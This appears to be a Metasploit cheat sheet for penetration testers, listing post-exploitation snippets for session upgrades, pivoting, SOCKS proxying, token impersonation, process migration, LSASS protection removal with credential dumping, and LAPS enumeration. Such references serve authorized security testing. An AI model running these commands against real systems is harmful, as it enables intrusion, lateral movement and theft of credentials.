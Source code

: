 # MSF

% metasploit

## upgrade session to meterpreter
#plateform/linux #target/remote #cat/ATTACK/CONNECT  
```
sessions -u <session_id>
```

## show session list
#plateform/linux #target/remote #cat/ATTACK/CONNECT
```
sessions -l
```

## print route table
#plateform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 
```
route print
```

## add pivot (autoroute)
#plateform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 
example : 
use multi/manage/autoroute
set session 1
exploit
```
use multi/manage/autoroute
```

## add socks proxy (autoroute first)
#plateform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 

example : 
use multi/manage/autoroute
set session 1
exploit
use auxiliary/server/socks_proxy
set srvhost 127.0.0.1
exploit -j

```
use auxiliary/server/socks_proxy
```

## load incognito 
#plateform/linux #target/local #cat/PRIVESC  
```
load incognito
```

## incognito impersonate token
#plateform/linux #target/local #cat/PRIVESC  
```
impersonate_token <domain>\\<user>
```
## create process
#plateform/linux #target/local #cat/UTILS 
```
execute -H -f <process|notepad>
```

## migrate with name
#plateform/linux #target/local #cat/ATTACK/INJECTION 
```
migrate -N <process_name|notepad.exe>
```

##  PPL remove
#plateform/linux #target/local #cat/ATTACK/INJECTION 
```
load kiwi
kiwi_cmd "!processprotect /process:lsass.exe /remove"
creds_all
```

## enum LAPS
#plateform/linux #target/local #cat/ATTACK
```
use post/windows/gather/credentials/enum_laps
```

## Format "services -o out" cmd to markdown
```
awk -F',' 'BEGIN {print "| IP            | Services                 |\n|---------------|--------------------------|"} NR > 1 {gsub(/"/, "", $1); gsub(/"/, "", $2); gsub(/"/, "", $4); ip_ports[$1] = ip_ports[$1] ? ip_ports[$1]","$2" ("$4")" : $2" ("$4")"} END {for (ip in ip_ports) print "| " ip " | " ip_ports[ip] " |"}' <input.csv>
```
